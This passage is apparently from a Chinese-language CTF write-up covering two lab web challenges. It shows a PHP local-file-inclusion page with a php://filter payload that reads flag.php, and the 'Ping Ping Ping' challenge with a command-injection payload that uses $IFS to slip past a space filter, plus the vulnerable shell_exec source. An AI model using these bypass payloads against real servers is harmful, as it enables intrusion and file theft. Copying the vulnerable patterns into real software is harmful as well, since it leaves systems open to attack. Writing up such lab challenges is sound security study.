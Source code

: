 右键源代码和跳转绕了一大圈...

抓包得到地址如下

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php
```

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

文件包含

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## [GXYCTF2019]Ping Ping Ping

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208211612946.png)

过滤的比较多, 懒得写了...

试了一个 payload 读 index.php

```bash
127.0.0.1;cat$IFS$9index.php
```

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```
